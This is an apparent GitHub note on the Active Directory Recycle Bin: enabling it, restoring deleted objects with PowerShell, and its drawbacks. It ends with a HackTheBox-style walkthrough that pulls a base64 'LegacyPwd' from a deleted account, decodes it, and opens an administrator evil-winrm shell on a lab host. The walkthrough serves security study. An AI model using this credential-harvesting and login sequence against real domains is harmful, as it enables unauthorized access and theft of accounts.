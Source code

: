 ### Introduction
The Active Directory Recycle Bin enables users to recover deleted Active Directory objects without having to restore them from backup, restart Active Directory Domain Services or reboot domain controllers (DCs).

#### 1. Enabling Active Directory Recycle Bin 
```powershell
Import-Module ActiveDirectory

Enable-ADOptionalFeature –Identity ‘CN=Recycle Bin Feature,CN=Optional Features,CN=Directory Service,CN=Windows NT,CN=Services,CN=Configuration,DC=DOMAIN,DC=com’ –Scope ForestOrConfigurationSet –Target ‘DOMAIN.com’
```
For now, you can leverage PowerShell cmdlets, Get-ADObject and Restore-ADObject.
With PowerShell, half the battle is knowing which cmdlets perform certain actions.

#### 2. Deleted objects, object changed from the original version to Recycle Bin
While the Recycle Bin preserves more object attributes than a tombstone, a restored object is not identical to the original object. For example, here is the data of one of the original objects.
![alt text](https://blog.netwrix.com/wp-content/uploads/2021/11/Picture5.png.webp)

The object after the deletion.
![alt text](https://blog.netwrix.com/wp-content/uploads/2021/11/Picture6.png.webp)

We can notice some of the main difference.
- **The object has been moved.** The object has been moved into the partition’s Deleted Objects container.
- **The object has been renamed.** The object’s name has been updated using the Common-Name DEL:Object-Guid.
- **The object possesses some new attributes.** The isDeleted attribute has a value of TRUE and the lastKnownParent attribute is populated. A new attribute, msDS-LastKnownRDN, is populated with the object’s last known relative distinguished name (this attribute allows the Recycle Bin to properly reset an object’s RDN during its restoration, even if the object’s renaming resulted in the truncation of the original RDN).
- **Two attributes have been removed.** Two attributes, objectCategory and sAMAccountType, are always removed from an object when it is deleted. If the object is recovered, the objectCategory value is automatically set to the most specific value in the object’s objectClass attribute and the sAMAccountType value is calculated from the value of either the userAccountControl (for user objects) or groupType attribute (for group objects).


####  3. Restoring deleted items
```powershell
Import-module ActiveDirectory

Get-ADObject -Filter {String} -IncludeDeletedObjects | Restore-ADObject

Examples:
Get-ADObject -Filter { SAMAccountName –eq “securityedu” } -IncludeDeletedObjects
Get-ADObject -Filter { DisplayName –like “*nguye5tn*” } -IncludeDeletedObjects
```
Once you found the objects you want to restore, just pipe the first command to “|Restore-ADObject”
Examples:
```powershell
Get-ADObject -Filter { SAMAccountName –eq “securityedu” } -IncludeDeletedObjects | Restore-ADObject
Get-ADObject -Filter { DisplayName –like “*nguye5tn*” } -IncludeDeletedObjects  | Restore-ADObject
```

#### 4. Drawbacks to the Active Directory Recycle Bin
While the Recycle Bin dramatically simplifies object recovery, we have seen a couple of limitations: Objects are kept for only a fairly short period of time and some of their attributes are lost. There are a couple of additional drawbacks to the Recycle Bin:

- **Enabling the Active Directory Recycle Bin involves a schema change.** Therefore, once you turn the Recycle Bin on you can’t turn it off without a full-forest recovery.
- **Active Directory is going to be a little bigger.** After enabling the AD Recycle Bin, deleted objects will retain far more of their attributes and persist longer than tombstones. As a result, Active Directory will likely use a little more space than it did before.
- **Enabling the Recycle Bin deletes all tombstones.** The most impactful consequence of enabling the Recycle Bin is that all tombstone objects in the forest will immediately cease to exist. Many admins have learned about this consequence the hard way.

### Security
There will be time when there are sensitive fields in deleted objects that could help hackers to leverage it for malicious usage.
For example, if the administrator decides to add some legacy password into the account object information that can be easily retrieved through LDAP technique.
```powershell
PS C:\Users\arksvc\Documents> Get-ADObject -Filter {displayName -eq "TempAdmin"} -IncludeDeletedObjects -Properties *


accountExpires                  : 9223372036854775807
badPasswordTime                 : 0
badPwdCount                     : 0
CanonicalName                   : cascade.local/Deleted Objects/TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
LegacyPwd                       : YmFDVDNyMWFOMDBkbGVz
CN                              : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
codePage                        : 0
countryCode                     : 0
Created                         : 1/27/2020 3:23:08 AM
createTimeStamp                 : 1/27/2020 3:23:08 AM
Deleted                         : True
Description                     :
DisplayName                     : TempAdmin
DistinguishedName               : CN=TempAdmin\0ADEL:f0cc344d-31e0-4866-bceb-a842791ca059,CN=Deleted Objects,DC=cascade,DC=local
dSCorePropagationData           : {1/27/2020 3:23:08 AM, 1/1/1601 12:00:00 AM}
givenName                       : TempAdmin
instanceType                    : 4
isDeleted                       : True
LastKnownParent                 : OU=Users,OU=UK,DC=cascade,DC=local
lastLogoff                      : 0
lastLogon                       : 0
logonCount                      : 0
Modified                        : 1/27/2020 3:24:34 AM
modifyTimeStamp                 : 1/27/2020 3:24:34 AM
msDS-LastKnownRDN               : TempAdmin
Name                            : TempAdmin
                                  DEL:f0cc344d-31e0-4866-bceb-a842791ca059
nTSecurityDescriptor            : System.DirectoryServices.ActiveDirectorySecurity
ObjectCategory                  :
ObjectClass                     : user
ObjectGUID                      : f0cc344d-31e0-4866-bceb-a842791ca059
objectSid                       : S-1-5-21-3332504370-1206983947-1165150453-1136
primaryGroupID                  : 513
ProtectedFromAccidentalDeletion : False
pwdLastSet                      : 132245689883479503
sAMAccountName                  : TempAdmin
sDRightsEffective               : 0
userAccountControl              : 66048
userPrincipalName               : TempAdmin@cascade.local
uSNChanged                      : 237705
uSNCreated                      : 237695
whenChanged                     : 1/27/2020 3:24:34 AM
whenCreated                     : 1/27/2020 3:23:08 AM
```
We can see there is a field call LegacyPwd that can be used for the users password. The password can be decoded with base64.
```bash
echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
baCT3r1aN00dles
```
This can be used to login for future attacks.
```powershell
evil-winrm -u 'administrator' -p 'baCT3r1aN00dles' -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

### References
AD recycle bin theory: https://blog.netwrix.com/2021/11/30/active-directory-object-recovery-recycle-bin/#:~:text=The%20Active%20Directory%20Recycle%20Bin,reboot%20domain%20controllers%20(DCs).

Managing AD Recycle bin: https://adsecurity.org/?p=51

Exploiting AD Recycle bin: https://blog.raw.pm/en/HackTheBox-Cascade-write-up/
